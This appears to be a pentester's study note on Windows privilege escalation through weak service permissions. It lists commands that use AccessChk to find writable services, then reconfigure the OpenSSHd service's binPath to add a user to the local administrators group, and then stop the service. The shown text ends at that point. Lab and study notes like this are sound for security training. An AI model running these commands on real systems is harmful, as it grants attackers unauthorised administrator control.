 
# Weak Service Permissions

- Weak Service Permissions
    
    [AccessChk - Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
    
    `upload /<PATH-TO-EXECUTABLE/accesschk64.exe`
    
    `.\accesschk64.exe -uwcqv "user" * -accepteula`
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2017.png)
    
    `sc qc OpenSSHd`
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2018.png)
    
    `sc config "OpenSSHd" binPath= "net localgroup administrators user /add"`
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2019.png)
    
    `sc stop OpenSSHd`
    